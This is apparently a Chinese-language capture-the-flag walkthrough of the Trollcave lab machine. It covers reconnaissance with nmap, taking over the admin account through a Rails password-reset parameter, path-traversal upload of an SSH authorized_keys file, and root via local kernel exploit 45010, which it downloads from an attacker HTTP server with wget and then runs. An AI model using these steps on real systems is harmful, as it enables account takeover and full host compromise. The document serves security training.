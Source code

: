 ```
nmap -sP 172.16.250.0/24
nmap -sV -sC -p- 172.16.250.131
```

```
Nmap scan report for 172.16.250.131 (172.16.250.131)
Host is up (0.00054s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:ab:d7:2e:58:74:aa:86:28:dd:98:77:2f:53:d9:73 (RSA)
|   256 57:5e:f4:77:b3:94:91:7e:9c:55:26:30:43:64:b1:72 (ECDSA)
|_  256 17:4d:7b:04:44:53:d1:51:d2:93:e9:50:e0:b2:20:4c (ED25519)
80/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Trollcave
MAC Address: 00:0C:29:9E:27:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-----------------------------------------------------------------------

<img src=".\图片\Snipaste_2022-11-21_19-42-22.png" alt="Snipaste_2022-11-21_19-42-22" style="zoom:60%;" />

**用户信息**：链接信息/user/1，可以尝试/user/2......

​                   权限为Superadmin

​                   King为管理员账号

----------------------------------------------------------------------------------------------------------

<img src=".\图片\Snipaste_2022-11-21_19-52-02.png" alt="Snipaste_2022-11-21_19-52-02" style="zoom:80%;" />

**登录信息**:无验证码，用户名对了会给与不同提示，用户名不对会给与统一错误提示

可编写python脚本爬取每一页用户的信息，可尝试登录爆破

--------------------

#### 确定源码初步渗透

[GitHub - rails/rails: Ruby on Rails](https://github.com/rails/rails/)

 发现有个修改密码的功能，而且不需要原密码

http://172.16.250.131/password_resets/new    

我们只能修改普通账户的密码，选择了一个

xer/1542576819zfY

进入会员中心时发现有文件上传的功能         

但是上传功能关闭了  File upload is currently disabled 

但是把修改链接中name的值修改为King就可以修改King密码

(http://172.16.250.131/password_resets/edit.eENtR7ARv_bGOYbiX6Sikw?name=King)

进入King的后台中可以把文件上传禁用打开

文件长传路径为[172.16.250.131/uploads/King/1](http://172.16.250.131/uploads/King/1)    但是不解析php 

可以控制上传路径，但仍不解析[172.16.250.131/2](http://172.16.250.131/2)     ../../2

思路暂停

#### 另辟蹊径

只因任意用户密码重置漏洞，已进入后台管理页面，发现文件上传功能，可控路径但后门始终无法解析

可以试试 rails 用户是否存在 如果存在可以上传 authorized_keys 到 rails 用户下的/.ssh 目录下就可以免密码登录ssh

生成ssh密匙，公钥和私钥：

```
ssh-keygen -f rails
mv rails.pub authorized_keys
```

将 authorized_key 上传到/home/rails/.ssh/  ，路径为

```
../../../../../../home/rails/.ssh/authorized_keys
```

ssh连接

```
ssh -i rails rails@172.16.250.131
```

<img src=".\图片\Snipaste_2022-11-22_14-59-41.png" alt="Snipaste_2022-11-22_14-59-41" style="zoom:80%;" />



#### 提权：

查看Ubuntu版本

```
cat /etc/lsb-release
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

发现此版本Ubuntu存在本地用户提权漏洞

本地下载编译http://172.16.250.128:8001/45010，开启服务器让目标机下载45010后执行，及提权成功

本地：

```
 python3 -m http.server 8001 
 gcc 45010.c -o 45010
```

目标机：

```
wget http://172.16.250.128:8001/45010
chmod +x 45010
./45010
```

<img src=".\图片\Snipaste_2022-11-22_15-19-28.png" alt="Snipaste_2022-11-22_15-19-28" style="zoom:80%;" />

```
cat flag.txt
```

```
et tu, dragon?c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5
```

#### 总结：

网站信息搜集时要细心，关注URL地址的规律，在页面提取重要信息，比如：用户名、源码特征等

善于在网上寻找已知漏洞exp，rails的任意用户重置密码、Ubuntu限定版本本地用户提权

发现网站功能点问题，文件上传，可上传但不解析，可控目录

关心/home/user/.ssh/下的authorized_keys，是否可被覆盖导致ssh直接登录，ssh公钥与私钥，这点由文件上传来解决

提权时善用本机信息搜集